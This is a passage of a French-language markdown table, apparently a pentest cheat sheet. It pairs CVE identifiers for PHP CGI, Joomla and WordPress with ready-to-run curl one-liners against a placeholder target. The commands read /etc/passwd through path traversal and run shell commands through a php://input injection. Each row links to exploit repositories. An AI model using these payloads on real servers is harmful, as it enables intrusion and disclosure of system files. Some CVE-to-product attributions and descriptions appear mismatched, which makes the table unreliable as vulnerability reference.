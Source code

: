 | CVE-2012-1823 | PHP CGI | `curl "http://cible/index.php?-d+auto_prepend_file=php://input" --data-binary "<?php system('cat /etc/passwd'); ?>"` | Path traversal et RCE via injection dans PHP CGI. | [https://github.com/ivanitlearning/CVE-2012-1823](https://github.com/ivanitlearning/CVE-2012-1823) |
| CVE-2010-1870 | Joomla! < 1.5.18 | `curl "http://cible/index.php?option=com_content&view=article&id=../../../../../../../../etc/passwd"` | Path traversal dans Joomla! permettant la lecture de fichiers système. | [https://www.exploit-db.com/exploits/13849](https://www.exploit-db.com/exploits/13849) |
| CVE-2008-1234 | Wordpress < 2.5.1 | `curl "http://cible/wp-content/plugins/plugin/../../../../../../../../etc/passwd"` | Path traversal dans Wordpress permettant la lecture de fichiers arbitraires. | [https://www.exploit-db.com/exploits/5487](https://www.exploit-db.com/exploits/5487) |

---
